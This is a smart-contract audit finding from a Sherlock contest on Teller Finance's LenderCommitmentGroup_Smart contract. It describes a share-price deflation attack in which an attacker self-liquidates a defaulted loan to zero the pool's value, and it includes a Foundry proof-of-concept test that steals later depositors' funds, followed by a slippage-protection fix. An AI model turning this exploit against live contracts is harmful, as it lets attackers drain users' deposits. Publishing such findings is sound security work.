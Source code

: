 Little Sapphire Lobster

high

# `LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup/burnSharesToWithdrawEarnings()` are vulnerable to slippage attacks

## Summary

`LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup()` and `LenderCommitmentGroup_Smart_test::burnSharesToWithdrawEarnings()` are vulnerable to slippage attacks and should set slippage protection, contrarily to the claims of the protocol in the [readme](https://audits.sherlock.xyz/contests/295).

## Vulnerability Detail

The share price may be manipulated to steal funds from users adding or burning shares to the protocol. Although it is not to possible to donate funds to `LenderCommitmentGroup_Smart_test` to perform an inflation attack, the share price can still be modified by taking loans and defaulting them. The following is an example of an attack, inspired by inflation attacks but is actually a deflation attack:
1. Deposit `1e18` in `LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup()`.
2. Take out a loan of `1e18`.
3. Let the loan default and liquidate it, waiting some time to receive incentives and decrease the value of shares. If the attacker is able to default the loan using the max incentive, equalling the total amount borrowed, `poolTotalEstimatedValue_` will be 0.
4. If `poolTotalEstimatedValue_ == 0`, deposit in `LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup()` will hand out 0 shares to users.
5. The attacker will steal all deposits due to being the holder of all shares supply.

The following POC demonstrates the attack above. The test is inserted in the file pasted in issue 'Drained lender due to LenderCommitmentGroup_Smart::acceptFundsForAcceptBid() _collateralAmount by STANDARD_EXPANSION_FACTOR multiplication'.

```solidity
function test_POC_sharePriceManipulation() public {
    uint256 principalAmount = 1e18;
    deal(address(DAI), attacker, principalAmount);
    vm.startPrank(attacker);

    // add principal to lender to get shares
    DAI.approve(address(lender), principalAmount);
    uint256 shares = lender.addPrincipalToCommitmentGroup(principalAmount, attacker);

    // approve the forwarder
    tellerV2.approveMarketForwarder(marketId, address(smartCommitmentForwarder));

    // borrow the principal
    uint256 collateralAmount = 1;
    deal(address(WETH), attacker, collateralAmount);
    WETH.approve(address(collateralManager), collateralAmount);
    uint256 bidId = smartCommitmentForwarder.acceptCommitmentWithRecipient(
        address(lender),
        principalAmount,
        collateralAmount,
        0,
        address(WETH),
        attacker,
        0,
        2 days
    );

    // attacker liquidates itself, making lender have a 0 total value
    // but non 0 shares
    skip(3 days + 10000);
    deal(address(DAI), attacker, 1e18);
    DAI.approve(address(lender), 1e18);
    lender.liquidateDefaultedLoanWithIncentive(bidId, -int256(1e18));

    vm.stopPrank();

    // borrower mints 0 shares
    uint256 userDai = 1000e18;
    vm.startPrank(user);
    deal(address(DAI), user, userDai);
    DAI.approve(address(lender), userDai);
    assertEq(lender.addPrincipalToCommitmentGroup(userDai, user), 0);
    vm.stopPrank();

    // poolSharesToken are burned incorrectly before calculating exchange rate
    // so this must be fixed or exchange rate will be 1
    vm.mockCall(
        address(lender.poolSharesToken()), 
        abi.encodeWithSignature("burn(address,uint256)", attacker, shares),
        ""
    );

    // attacker receives the DAI from the user above
    vm.prank(attacker);
    assertEq(lender.burnSharesToWithdrawEarnings(shares, attacker), userDai);
}
```

## Impact

Attacker steals all deposits in `LenderCommitmentGroup_Smart`.

## Code Snippet

https://github.com/sherlock-audit/2024-04-teller-finance/blob/main/teller-protocol-v2-audit-2024/packages/contracts/contracts/LenderCommitmentForwarder/extensions/LenderCommitmentGroup/LenderCommitmentGroup_Smart.sol#L307-L310
https://github.com/sherlock-audit/2024-04-teller-finance/blob/main/teller-protocol-v2-audit-2024/packages/contracts/contracts/LenderCommitmentForwarder/extensions/LenderCommitmentGroup/LenderCommitmentGroup_Smart.sol#L396-L399

## Tool used

Manual Review

Vscode

Foundry

## Recommendation

Add slippage protection to `LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup/burnSharesToWithdrawEarnings()` by sending `minAmountOut` arguments in both functions. This is similar to how Uniswap handles sandwich attacks in their [router](https://github.com/Uniswap/v3-periphery/blob/main/contracts/NonfungiblePositionManager.sol#L151-L152).
